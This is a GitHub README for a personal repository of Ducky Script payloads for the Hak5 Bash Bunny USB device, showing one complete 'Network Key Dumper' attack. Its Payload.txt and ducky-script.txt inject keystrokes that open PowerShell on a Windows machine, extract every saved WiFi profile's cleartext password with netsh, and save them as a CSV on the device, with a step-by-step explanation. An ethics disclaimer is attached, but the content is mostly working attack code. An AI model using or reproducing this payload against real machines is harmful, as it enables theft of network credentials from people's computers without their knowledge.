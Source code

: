 # Steven's Custom Ducky Script Repository

This repository contains **custom Ducky Scripts** designed for use with **Hak5's Bash Bunny**. 



## ⚠ Disclaimer

```
All projects and demonstrations in this portfolio are for educational and ethical cybersecurity research only. Every
technique and tool was used legally within approved environments, adhering to ethical hacking principles, legal
regulations, and responsible disclosure practices. Unauthorized use of these methods on systems without explicit
permission is illegal and strictly discouraged. Always follow legal guidelines and obtain proper authorization
before conducting security assessments.
```

<p align="center">
  <a href="https://hak5.org/" target="_blank">
    <img width="765" height="562" alt="bash" src="https://github.com/user-attachments/assets/2b00e903-8879-44b6-9343-6c249a14a5db" />
  </a>
</p>



## 🐇 Bash Bunny Network Key Dumper to CSV (Windows) 
**Payload.txt handles overall attack logic, device modes, and script execution.**
```ducky
# set up payload
LED SETUP
GET SWITCH_POSITION
ATTACKMODE HID STORAGE

# run duckyscript file 'ducky-script.txt'
LED STAGE1
QUACK ${SWITCH_POSITION}/ducky-script.txt

# end payload
LED FINISH
```

**Ducky-script.txt contains keystroke injection commands (Ducky Script syntax).**
```ducky
# opens the run dialog and waits 500 milliseconds to ensure the run dialog is open
GUI r
DELAY 500

# launches powershell without loading a user profile and waits 500 milliseconds
STRING powershell -NoProfile 
ENTER
DELAY 500

# navigates to the Bash Bunny's USB storage assuming it's labeled BashBunny
STRING $u=gwmi Win32_Volume|?{$_.Label -eq'BashBunny'}|select name;cd $u.name
ENTER
DELAY 500

# navigates to the loot directory where extracted data will be stored and waits 500 milliseconds
STRING cd loot
ENTER
DELAY 500

# extract WiFi profiles and passwords and saves to a CSV file in loot
STRING (netsh wlan show profiles) | Select-String ":(.+)$" | %{$name=$_.Matches.Groups[1].Value.Trim(); $_} | %{(netsh wlan show profile name="$name" key=clear)}  | Select-String "Key Content\W+\:(.+)$" | %{$pass=$_.Matches.Groups[1].Value.Trim(); $_} | %{[PSCustomObject]@{ PROFILE_NAME=$name;PASSWORD=$pass }} | Export-Csv -NoTypeInformation -Path ".\$env:UserName`_WiFiPasswords.csv"; exit
ENTER

```
**Explanation of the PowerShell command:**
```
1. `netsh wlan show profiles` – Lists all saved WiFi profiles.
2. `Select-String ":(.+)$"` – Extracts profile names using regex.
3. `netsh wlan show profile name="$name" key=clear` – Retrieves the password for each profile.
4. `Select-String "Key Content\W+\:(.+)$"` – Extracts the WiFi password using regex.
5. `[PSCustomObject]@{ PROFILE_NAME=$name; PASSWORD=$pass }` – Formats the data into objects.
6. `Export-Csv -NoTypeInformation -Path ".\$env:UserName`_WiFiPasswords.csv"` – Saves the extracted credentials as a CSV file.
7. `exit` – Closes PowerShell.
```



## 🔗 References

- [Hak5 Official Website](https://hak5.org/)
- [Bash Bunny Documentation](https://docs.hak5.org/bash-bunny/)


